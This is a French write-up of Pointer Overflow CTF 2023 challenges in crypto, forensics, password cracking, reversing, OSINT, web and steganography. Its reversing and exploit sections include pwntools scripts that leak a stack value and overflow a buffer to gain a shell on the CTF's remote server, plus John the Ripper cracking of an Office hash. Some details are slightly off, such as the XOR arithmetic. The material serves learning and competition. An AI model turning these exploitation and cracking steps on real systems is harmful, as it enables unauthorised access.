


# Pointer Overflow CTF 2023

La Pointer Overflow CTF nous est proposé par l'université du Wisconsin - Stevens
Point (département d'informatique et de nouvelles technologies).

Nous allons détailler un peu plus de la moitié des épreuves s'y étant déroulées.

# Crypto

## Unquestioned and Unrestrained

L'intitulé nous présente une chaîne de caractères chiffrée.

La chaîne est chiffrée en base 64 :

```
encoded : cG9jdGZ7dXdzcF80MTFfeTB1Ml84NDUzXzQyM184MzEwbjlfNzBfdTV9
decoded : poctf{uwsp_411_y0u2_8453_423_8310n9_70_u5}
```

## A Pale, Violet Night

La description de l'épreuve nous donne une clé publique RSA :
- L'exposant (e) : 5039
- Le modulo (N) : 34034827

Aussi, nous disposons d'un message chiffré à l'aide de cette clé

```
C = 933969 15848125 24252056 5387227 5511551 10881790 3267174 14500698 28242580 933969 32093017 18035208 2594090 2594090 9122397 21290815 15930721 4502231 5173234 21290815 23241728 2594090 21290815 18035208 10891227 15930721 202434 202434 21290815 5511551 202434 4502231 5173234 25243036
```

Le modulo étant très petit (on recommande aujourd'hui des modulo codés sur 2048
bits), une méthode consiste à deviner par force brute la clé privée, à savoir au
minimum les deux facteurs premiers initiaux p et q qui multipliés ont produit le
modulo.

Un site tel que [**dcode**](https://www.dcode.fr/chiffre-rsa) nous permet d'obtenir
la clé privée par force brute

Un programme python peut nous aider à automatiser le processus de déchiffrement
sachant que la formule à utiliser est :

```
bloc_clair = (bloc_chiffré ** d) % n
```

```python
c = [
933969, 15848125, 24252056, 5387227, 5511551, 10881790,
3267174, 14500698, 28242580, 933969, 32093017, 18035208,
2594090, 2594090, 9122397, 21290815, 15930721, 4502231,
5173234, 21290815, 23241728, 2594090, 21290815, 18035208,
10891227, 15930721, 202434, 202434, 21290815, 5511551,
202434, 4502231, 5173234, 25243036
]

d = 202559
n = 34034827
flag = ''

for i in c: flag += chr((i**d)%n)

print(flag)
```

clé privée : {p:5807, q:5861}

## Missing and Missed

On trouve à l'intérieur de l'épreuve un programme écrit en Brainfuck.

L'exécuter sur un site tel que [**dcode**](https://www.dcode.fr/langage-brainfuck)
permettra de pouvoir l'exécuter.

flag : `poctf{uwsp_219h7_w20n9_02_f0290773n}`

Brainfuck : [**Wikipedia**](https://fr.wikipedia.org/wiki/Brainfuck)

# Misc

## Sight Without Vision
Non résolu

## Here You See A Passer By
Voici le labyrinthe résolu :



Le flag est : `poctf{uwsp_pr377y_bu7_p377y_bu7_pr377y}`

## This Fellow is Dancing Mad!

Non résolu

# Forensics

## If You Don't, Remember Me

Je ne sais pas s'il y a une manière plus intelligente de retrouver le flag ou
de réparer le fichier PDF mais je me suis servi de l'utilitaire `stings` pour
énumérer les chaînes de caractères dans un fichier ne contenant pas uniquement
des caractères imprimables.

On voit en utilisant `strings` qu'à la fin de l'output se trouve :

```
=1F'
8co6
IFM:R
nSyC
poctf(uwsp_77333163306D335F37305F3768335F39346D33}
$@b`
an50
604h
oQ]W
```

Après décodage d'une partie du flag codée en **hexadécimal**, on obtient le
flag : `poctf(uwsp_w31c0m3_70_7h3_94m3}`

## A Petty Wage in Regret

Après avoir téléchargé l'image, un des premiers réflexes à avoir peut-être
de le passer dans l'utilitaire `exiftool` afin de pouvoir consulter ses
metadonnées, nous y voyons d'abord

```
User Comment : 3A3A50312F323A3A20706F6374667B757773705F3768335F7730726C645F683464
```

Cette chaîne est codée en hexadécimal, une fois décodée, cela donne :

```
::P1/2:: poctf{uwsp_7h3_w0rld_h4d
```

Nous avons donc ici une première partie du flag.

La seconde partie du flag peut être trouvée visuellement. Un site très
intéressant au niveau de l'analyse visuelle d'images, que cela soit pour
retrouver des traces de montages ou encore pour simplement jouer avec
les contrastes est [**Forensically**](https://29a.ch/photo-forensics).

Les JPG (ou JPEG) ont une technologie intéressante du point de vue du
domaine du forensics. En effet, les JPG sont compressés afin de prendre
moins de place sur le système, cependant, cette compression est réalisée
à chaque modification ou montage supplémentaire appliqué sur l'image. Une
sur-compression est donc réalisée, ce qui peut être détectée.

À l'aide de **Forensically**, nous pouvons modifier le paramètre d'analyse
de niveau d'erreur afin de différencier la photo originale du contenu ajouté.

Nous obtenons ce résultat assez satisfaisant :



Les deux parties du flag reconstituées donnent :
`poctf{uwsp_7h3_w0rld_h4d_17_f1257}`

## Better to Burn in the Light

Non résolue (en réalité à moitié)

# Crack

## We Mighty, We Meek

À l'aide de quelques recherches et de l'intitulé de l'épreuve, nous voyons
ce fichier est à l'origine un document `excel` qui fut chiffré. il requiert
un mot de passe pour pouvoir le consulter.

La suite de programmes qu'offre l'utilitaire de brute-force **John The Ripper**
propose le programme `office2john`, ce dernier nous permet d'extraire le hash
représentant le mot de passe du fichier chiffré.

Le hash en question :
```
crack1.excel:$office$*2013*100000*256*16*912a7246e4f68e941d6c46fc6e08a483*2260c3a993eaaef1546b8089d588fbe8*94d51fe5b72f73d422fba69b6f32fa32e363aa5c94ba41b4f86e821a04a21774
```

N'ayant pas d'autres possibilités que la force brute et une liste de mots de
passe assez conséquente à tester pour retrouver le mot de passe (**rockyou.txt**),
il nous a que la durée de crack était anormale.

Un indice ultérieurement rajouté à l'épreuve a toutefois précisé que la force
brute était la méthode nécessaire mais que la durée de résolution était bien
trop longue, une précision fut apportée : le mot de passe répond à l'expression
régulière `^[A-Za-z]*$`.

Une étape préliminaire est donc de filtrer le fichier `rockyou.txt` à l'aide de
cette regex et de l'utilitaire `grep`

```
grep "^[A-Za-z]*$" rockyou.txt > rockyou_alpha.txt
```

Nous obtenons une liste de 4.120.389 de mots, contre 14.344.391 pour la liste
initiale, ce qui est non négligeable mais pas non plus une différence
acceptable pour réduire le temps de calcul à moins d'une heure

Nous utilisons `john` :

```
john --wordlist=rockyou_alpha.txt hash
```

Nous obtenons le mot de passe en `4h33min`, ce qui reste énorme, on ose à peine
imaginer le temps de calcul initial sachant que nous avons parcouru environ 60%
de la liste alphanumérique représentant elle-même 35% de la liste initiale.

Le mot de passe est : `hsppyhsppyjoyjoy`

Le flag après consultation du fichier excel :
`poctf{uwsp_j3_p3n5e_d0nc_j35_5u15}`

## The Gentle Rocking of the Sun

L'épreuve nous donne comme indication :

`"crack2 = 4bd939ed2e01ed1e8540ed137763d73cd8590323"`

Ce hash est connu des bases de données trouvables sur internet, un site comme
[**Crackstation**](https://crackstation.net/) nous permet de trouver le mot de
passe : **zwischen**.

L'archive s'ouvre avec l'utilitaire `7zip` de la façon suivante (sur Linux) :

`7zip e crack2.7z`

Un prompt nous invite à rentrer le mot de passe. À l'intérieur de l'archive
se trouve une suite de dossiers imbriqués. Leur nom mis bout à bout permet de
reconstituer le flag : `poctf{uwsp_c411f02n14_d234m1n9}`.

## With Desperation and Need

Le fichier fourni dans l'épreuve est un container `VeraCrypt` pouvant être
ouvert à l'aide de l'utilitaire du même nom. Il est protégé par mot de
passe.

Une technique consiste à extraire le hash du fichier en en extrayant les 512
premiers bits. Ce morceau peut alors être passé dans un logiciel tel que
**hashcat** pour retrouver le mot de passe, or, comme pour l'épreuve
précedente, nous faisons face à beaucoup trop de possibilité.

Un indice donné en cours d'épreuve nous informe que le mot de passe match la
regex `^gUn[A-Za-z0-9]*$`. Nous pouvons voir qu'un seul mot de passe de la
liste **rockyou.txt** correspond : `gUnGNmZg6E6x0k1RgrkS`.

En ouvrant le container, nous trouvons le flag dans un fichier `flag.txt` :
`poctf{uwsp_qu4n717y_15_n07_4bund4nc3}`.

# Reversing

## Easy as it Gets

L'épreuve nous donne un fichier `ps1`, cela correspond usuellement à un
script **Powershell**.

Nous voyons que c'est un utilitaire de chiffrement. Nous pouvons déchiffrer
le flag à l'aide d'un mot de passe demandé dans un prompt à l'exécution du
script dans un Powershell.

Heureusement pour nous, le mot de passe en question est écrit en commentaire
dans le script :

```
#### 
# TODO: use strong password
# Canadian_Soap_Opera
### 
```

En utilisant ce mot de passe, on trouve le flag :
`poctf{uwsp_4d_v1c70r14m_w457314nd3r}`

## A Tangled Web We Weave

Nous avons affaire ici à un programme assembleur.

Nous ne pouvons pas le compiler car il manque un bout d'instruction :

```
mov al, byte [edi + esi]
xor al, ; something missing? <---------
mov byte [edi + esi], al
```

Nous comprenons que ce programme utilise une et une seule valeur pour
déchiffrer le flag en appliquant un XOR entre cette valeur et tous les
caractères du flag.

Le format d'un flag est `poctf{[A-Za-z0-9_]}`, le début du flag ne changera
pas. La première valeur chiffrée est `0xf` :

```
0x7a (lettre p) ^ 0xf = 0x7f
```

L'instruction sera donc :

```
xor al, 0x75;
```

Si vous n'avez pas le matériel nécessaire pour compiler/exécuter un script
assembleur tel que celui-ci, un site tel que [**tutorialspoint**](https://www.tutorialspoint.com/compile_assembly_online.php)
permet de le faire en ligne facilement.

Le flag : `poctf{uwsp_k1n9_k0n9_907_n07h1n9_0n_m3}`

## Sunshine on Filth is Not Polluted

### Analyse complète du programme avant manipulation

L'épreuve nous donne un programme compilé. Une bonne méthode pour commencer
facilement une épreuve telle que celle-ci est d'analyser l'exécutable avec
la commande file pour voir quelle architecture il possède.

```
$ file re3.bin

# re3.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dd1b55c9ef54eabfd21ced9c27cec4dd2b050504, for GNU/Linux 3.2.0, not stripped
```

C'est un ELF (Executable and linkable format), exécutable sur plus ou moins
toutes les variantes d'UNIX. De plus, c'est un exécutable 64 bits, ce détail
sera important pour la lecture et l'écriture d'adresses.

En ouvrant le programme avec [**Ghidra**](https://ghidra-sre.org/), un outil
indispensable pour le reverse engineering, nous pouvons voir plusieurs choses :

### La fonction `main`
```c
int main(EVP_PKEY_CTX *param_1){
  init(param_1);
  generate_code();
  configure_username();
  login();
  exit(0);
}
```

La fonction `main` n'est pas très intéressante étant très séquentielle et
uniquement composée d'appels successifs, concentrons-nous sur ces appels.

### La fonction `init`
```c
int init(EVP_PKEY_CTX *ctx){
  __pid_t _Var1;
  int extraout_EAX;
  char *__path;
  time_t tVar2;
  
  alarm(0x3c);
  signal(0xe,sig_handler);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  __path = getenv("HOME");
  chdir(__path);
  tVar2 = time((time_t *)0x0);
  _Var1 = getpid();
  srand(_Var1 * (int)tVar2);
  return extraout_EAX;
}
```

Les choses intéressantes dans cette fonction:
- Les buffers de sortie ont été supprimés (instructions utilisant `setvbuf`).
  Nous ne pourrons donc pas voir la sortie de nos essais sur l'exécutable à
  distance
- Nous avons été déplacé dans le `$HOME` de l'utilisateur courant
- L'aléatoire a été initialisé avec le `PID` du programme, ce qui le rend
  non calculable sur la machine distante dont nous n'avons aucune information.

### La fonction `generate_code`
```c
void generate_code(void){
  int iVar1 = rand();
  auth_code = (iVar1 + 0x7b) % 10000;
  return;
}
```

Cette fonction place dans ce qui semble être la variable globale `auth_code`
une valeur aléatoire (entre 0 et **MAX_INT**) modulo 10000 auquel nous avons
ajouté au préalable `0x7b` soit 123.

Cette valeur ne sera pour rappel pas calculable car nous ne pouvons pas deviner
la graine d'initialisation de la séquence aléatoire due au manque
d'informations sur la machine distante et que l'initialisation se réalise à
l'aide du `PID`.

### La fonction `configure_username`
```c
void configure_username(void){
  int iVar1;
  char local_18 [16];
  
  while( true ) {
    printf("Options: (1) Enter username, (2) Confirm username, (3) Done: ");
    iVar1 = get_int();
    if (iVar1 == 3) break;
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        printf("Username: ");
        __isoc99_scanf(&DAT_00102069,local_18);
        strncpy(auth_username,local_18,0x10);
      }
      else if (iVar1 == 2) {
        printf("Current username is: %s\n",local_18);
      }
    }
  }
  return;
}
```

Cette fonction tourne en boucle jusqu'à ce que l'input donné soit '3', le
programme nous demandant ensuite de rentrer le code d'authentification qui ne
**dépend pas de l'username**. Nous avons deux options :
- Enregistrer l'username
- Afficher l'username enregistré.

**IMPORTANT** : la variable peut être affichée sans être initialisée. C'est ici
la **faille majeure** de ce programme. À l'aide de celle-ci, nous allons
pouvoir procéder à un leak de la pile. Nous allons nous en servir pour afficher
le code d'authentification calculé dans la fonction `generate_code`.

### La fonction `login`
```c
void login(void){
  int iVar1;
  int local_c;
  
  printf("Logging in as \'%s\'\n",auth_username);
  printf("Enter your authentication code: ");
  __isoc99_scanf(&DAT_001020c1,&local_c);
  iVar1 = strcmp(auth_username,"admin");
  if ((iVar1 == 0) && (local_c == auth_code)) {
    execl("/bin/bash","/bin/bash",0);
  }
  else {
    puts("Access denied");
  }
  return;
}
```

La dernière fonction appelée permet de vérifier l'username et le code que nous
rentrons dans la fonction `configure_username`.

Si l'username enregistré est `admin` et que le code de vérification correspond,
un shell nous sera ouvert, nous permettant d'aller chercher le flag, sinon,
l'accès nous sera refusé.

### Vérification de la théorie avec l'exécutable local

Vérifions que notre théorie est juste avec l'exécutable tournant en local sur
notre machine Linux.

#### Exécution normale
```
Options: (1) Enter username, (2) Confirm username, (3) Done: 1
Username: admin
Options: (1) Enter username, (2) Confirm username, (3) Done: 2
Current username is: admin
Options: (1) Enter username, (2) Confirm username, (3) Done: 3
Logging in as 'admin'
Enter your authentication code: 1234
Access denied
```

#### Premier leak (username non renseigné)
```
Options: (1) Enter username, (2) Confirm username, (3) Done: 2
Current username is: ! <--------- Anormal
```

#### Analyse du leak avec `xxd` et exploitation locale

Si l'on passe l'output du programme en utilisation anormale dans l'utilitaire
`xxd`, cela nous donne :
```
00000000: 4f70 7469 6f6e 733a 2028 3129 2045 6e74  Options: (1) Ent
00000010: 6572 2075 7365 726e 616d 652c 2028 3229  er username, (2)
00000020: 2043 6f6e 6669 726d 2075 7365 726e 616d   Confirm usernam
00000030: 652c 2028 3329 2044 6f6e 653a 2043 7572  e, (3) Done: Cur
00000040: 7265 6e74 2075 7365 726e 616d 6520 6973  rent username is
00000050: 3a20 ab06 0a4f 7074 696f 6e73 3a20 2831  : ...Options: (1
00000060: 2920 456e 7465 7220 7573 6572 6e61 6d65  ) Enter username
00000070: 2c20 2832 2920 436f 6e66 6972 6d20 7573  , (2) Confirm us
00000080: 6572 6e61 6d65 2c20 2833 2920 446f 6e65  ername, (3) Done
```

Analysons la ligne `00000050`. Nous pouvons voir `3a20`, c'est à dire ':' suivi
d'un espace. Ensuite nous pouvons voir `ab06` suivi de `0a`, un saut de ligne.

L'output de l'option 2 est donc `ab06`, Nous sommes sur une architecture x86,
Cet output est écrit en little endian, c'est-à-dire "à l'envers".

```
(little_endian)0xab06 = (big_endian)0x06ab

0x06ab = 1707
```

Nous rentrons alors l'username `admin` :
```
1
admin
00000090: 3a20 5573 6572 6e61 6d65 3a20 4f70 7469  : Username: Opti
000000a0: 6f6e 733a 2028 3129 2045 6e74 6572 2075  ons: (1) Enter u
000000b0: 7365 726e 616d 652c 2028 3229 2043 6f6e  sername, (2) Con
000000c0: 6669 726d 2075 7365 726e 616d 652c 2028  firm username, (
```

Puis nous rentrons le code de vérification que nous avons trouvé :
```
3
000000d0: 3329 2044 6f6e 653a 204c 6f67 6769 6e67  3) Done: Logging
000000e0: 2069 6e20 6173 2027 6164 6d69 6e27 0a45   in as 'admin'.E
000000f0: 6e74 6572 2079 6f75 7220 6175 7468 656e  nter your authen
1707
00000100: 7469 6361 7469 6f6e 2063 6f64 653a 201b  tication code: .
```

Nous n'avons pas `access denied` et un shell vient de s'ouvrir (vous ne pouvez
pas le voir ici).

### Exploitation à distance à l'aide d'un script

Nous pourrions utiliser `xxd` pour exploiter l'exécutable à distance mais
écrire un script python automatique est plus professionnel.

Voici le script :

```python
from pwn import *

conn = remote('34.123.210.162', 20231)

conn.send(b'2\r\n')
conn.recvuntil(b'Options')

leak = conn.recvuntil(b'Options')[-10:-8]
value = leak[1] * 256 + leak[0]

conn.send(b'1\r\nadmin\r\n')
conn.send(b'3\r\n' + str(value).encode() + b'\r\n')

conn.interactive()
conn.close()
```

Ce programme récupère les deux octets qui nous intéresse (avec `recvuntil`),
renseigne l'username `admin`, se connecte avec le code trouvé et nous rend la
main avec le shell que le programme à ouvert à l'aide de la méthode
`interactive`.

Essai :
```
[+] Opening connection to 34.123.210.162 on port 20231: Done
[*] Switching to interactive mode
: (1) Enter username, (2) Confirm username, (3) Done: Username: Options: (1) Enter username, (2) Confirm username, (3) Done: Logging in as 'admin'
Enter your authentication code: $
$ id
uid=1001(re3) gid=1002(re3) groups=1002(re3)
$ cat flag.txt
poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}
```

flag : `poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}`

# OSINT

## All is Green and Comfort

Non résolue

## A Great Interior Desert

L'indice donné dans cette épreuve est le profil de quelqu'un sur le réseau
social `mastodon` : [https://mastodon.social/@free_jack_marigold](https://mastodon.social/@free_jack_marigold).

Sur ce profil on peut trouver une référence à un autre profil, cette fois sur
twitter, celui de `@jock_bronson` : [https://twitter.com/jock_bronson](https://twitter.com/jock_bronson)

Sur ce profil, dans la section `replies`, on trouve un lien vers le profil
[https://twitter.com/SenorSpacecakes](https://twitter.com/SenorSpacecakes), sur
ce profil, nous pouvons trouver un lien instagram : [https://www.instagram.com/senorspacecakes/](https://www.instagram.com/senorspacecakes/).

Sur ce profil instagram, la première photo contient le flag :
`poctf{uwsp_7h3_2357_15_45h}`.

## A Pilgrim in an Unholy Land

Cette OSINT nous a posé beaucoup de problèmes, nous allons détailler les
étapes que nous avons suivies ici.

En réalité, mon équipe et moi-même avons réussi à sauter une étape, plus par
nécessités que par choix étant donné que nous n'avons pas pu résoudre l'une
d'elle.

### Etape 1

L'étape 1 correspond à trouver où se trouve l'avion sur l'image. Par recherche
d'image inversée, on trouve que ce lieu est le `Airplane Home` dans l'Oregon,
aux USA.

Le numéro de téléphone pour l'étape 2 est donc : `+1 503-628-2936`

### Etape 2

Afin de pouvoir avoir le point GPS indiqué sur l'image de l'étape 2, il fallait
rentrer sur un moteur tel que google maps les coordonnées :
`15.036282936,-15.036282936`.

### Etape 3

Nous n'avons pas réussi à réaliser l'étape 3

### Bypass pour étape 4

Afin d'aller directement à l'étape 4, on peut voir sur l'image deux enseignes,
'Rapidfones' et 'Fone haus', ces deux enseignes sont originaires de
Papouasie-Nouvelle-Guinée, on peut les retrouver toutes les deux en même temps
dans deux endroits nommé "Brian Bell", comme l'indique l'indice dans l'épreuve.

Un de ces endroits, qui est un centre commercial, est nommé `Brian Bell Plaza`.
Un seul point `Google Street View` est placé sur cet endroit, on y retrouve la
silhouette fantomatique ainsi que les deux enseignes.

L'épreuve nous indique de chercher une marque que les professionnels utilisent.
On peut voir dans le champ de vision du point google street view, entre le
dental care et le rapid fones, une banderole exposant la marque "ultimate
ears". Cette marque est utilisée par des musiciens professionnels.

Cette marque a d'abord commencé avec le groupe `Van Halen`. On peut trouver
une "Van Halen Lane" à Stockton, en Californie en cherchant un petit peu sur
maps.

### Etape 5

"Where one musician becomes the band", on peut voir une rue intitulée
"Hendrix drive" (Jimi Hendrix) qui rejoint "Van halen Lane", c'est bien là
qu'on trouve le Van. Le numéro de téléphone est `(209)472-9466`, ce qui nous
donne `2094729466` pour le mot de passe de l'archive.

Une fois l'archive ouverte, dans le fichier `flag.txt`, nous trouvons le flag :
`poctf{uwsp_175_411_02_n07h1n9}`.

# Web

## We Rest Upon a Single Hope

Sur le site, on peut consulter le code Javascript utilisé pour vérifier la clé.
Sans plus détailler le processus de vérification, nous pouvons voir :

```js
function Zuul(key) {
  if (key == v) {
    ...
  }
  ...
}
```

et un peu plus loin :

```js
var v = Gozer(p/((o+c)*t)+f);
```

On rentre dans la console la commande `Gozer(p/((o+c)*t)+f);` qui nous donne le
nombre `1211287088`, ceci est donc la clé.

On obtient le flag dans la console en rentrant la clé dans l'input.

flag : `poctf{uwsp_1_4m_4ll_7h47_7h3r3_15_0f_7h3_m057_r34l}`.

## Vigil of the Ceaseless Eyes

Non résolue

## Quantity is Not Abundance

Non résolue

# Stego

## Absence Makes Hearts Go Yonder

En téléchargeant le gif et en le passant dans l'utilitaire `binwalk`, nous
pouvons voir qu'il contient un fichier txt caché.

(Nous aurions aussi pu voir le fichier avec `strings` mais nous allons faire la
méthode comme si ce n'était pas aussi simple).

```
binwalk -D=".*" stego1.gif
```

Cela nous donne un dossier contenant trois fichiers, l'un d'entre eux contient :

```
PKWV%flag.txtpoctf{uwsp_h342d_y0u_7h3_f1257_71m3} PKWV% flag.txtPK6K
```

flag : `poctf{uwsp_h342d_y0u_7h3_f1257_71m3}`

## An Invincible Summer

Non résolue

## Between Secrets and Lies

Non résolue

# Exploit

## My Friend, A Loathsome Worm

Non résolue

## A Guilded Lily

Non résolue

## Time is but a Window

Dans cette épreuve, nous pouvons voir un programme qui nous demande notre nom
et le répète.

Exécution normale du programme :
```
$ ./exploit3.bin
# Hello! What's your name?: name
# Nice to meet you name!
```

On peut ouvrir le programme dans `Ghidra` et regarde ce qu'il en est.

### Fonction `main`

```c
int main(EVP_PKEY_CTX *param_1){
  init(param_1);
  greet();
  return 0;
}
```

La fonction `main` n'est pas très intéressante, simple séquence d'appels.

### Fonction `init`

```c
int init(EVP_PKEY_CTX *ctx){
  int iVar1;
  char *__path;
  
  alarm(0x3c);
  signal(0xe,sig_handler);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  __path = getenv("HOME");
  iVar1 = chdir(__path);
  return iVar1;
}
```

La fonction `init` arrête la bufferisation des entrées/sorties. Nous n'aurons
donc pas de sortie d'erreur durant les exécutions à distance du réel programme.

Elle nous place aussi dans le répertoire de l'utilisateur courant.

### Fonction `greet`

```c
void greet(void){
  char local_18 [16];
  
  printf("Hello! What\'s your name?: ");
  get_string((long)local_18);
  printf("Nice to meet you %s!\n",local_18);
  return;
}
```

la fonction `greet` appelée dans la fonction `main` contient les appels
permettant de recueillir et d'afficher notre nom.

On constate que le buffer passé dans la fonction `get_string` (semblant
enregistrer notre nom) est de taille 16. C'est important pour la suite.

### Fonction `get_string`

```c
void get_string(long param_1){
  int iVar1;
  int local_c;
  
  local_c = 0;
  while( true ) {
    iVar1 = getchar();
    if ((char)iVar1 == '\n') break;
    *(char *)(local_c + param_1) = (char)iVar1;
    local_c = local_c + 1;
  }
  return;
}
```

Nous pouvons voir que la fonction `get_string` place autant de caractères dans
le buffer passé en paramètre de l'appel qu'il y en a avant de saisir un retour
à la ligne.

Ceci confirme que la taille du buffer passé en paramètre dans la fonction
`greet` est trop petite. Nous sommes ici sur une faille de type "buffer
overflow".

Nous pouvons tester cela en exécution dans `gdb` si l'on donne un nom trop
grand :

```
gdb$ r
...
Hello! What's your name?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
...
Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

Nous avons écrasé le registre `RIP` (Pointeur d'instruction). Nous contrôlons
donc l'exécution du programme.

En jouant avec les différentes exécutions, nous pouvons déduire la taille de
l'offset nécessaire avant d'écraser le registre `RIP` : 24.

### Fonction `win`

```c
void win(void){
  alarm(0);
  execl("/bin/bash","/bin/bash",0);
  return;
}
```

Une fonction nommée `win` peut être trouvée dans le programme. Elle permet
d'ouvrir un shell.

Nous allons vouloir rediriger le programme vers cette fonction, ce qui nous
évitera de devoir utiliser une autre technique comme celle du shellcode.

Aussi, un passage dans le logiciel `checksec` nous montre que le programme
ne possède pas de canary. Enfin, le programme n'est pas soumis à l'ASLR, les
fonctions seront toujours au même endroit dans la mémoire.

Nous trouvons l'offset de `win` dans `gdb` : `0x13cb`
Après démarrage du programme, on trouve la fonction à l'adresse :
`0x5555555553cb`

La fonction de retour de `greet`, qui était initialement dans le registre
`RIP`, est celle de la fonction `main` puisque `greet` y est appelée.

L'adresse de la fonction `main` : `0x5555555553a8`

On voit donc que nous devons dépasser d'un seul octet sur cette adresse car
elle diffère de l'adresse de `win` d'un octet uniquement, l'octet `0xcb`.

### Exploit

L'exploit que j'ai écrit pour résoudre cette épreuve, se basant sur l'analyse
ci-dessus, est le suivant :

```python
from pwn import *

conn = remote('34.123.210.162', 20234)

offset = b'A'*24
payload = int(0xcb).to_bytes()

conn.send(offset + payload + b'\n')

conn.interactive()
conn.close()
```

Ce programme nous ouvre un shell dans lequel nous pouvons afficher le flag.

Le flag : `poctf{uwsp_71m3_15_4_f4c702}`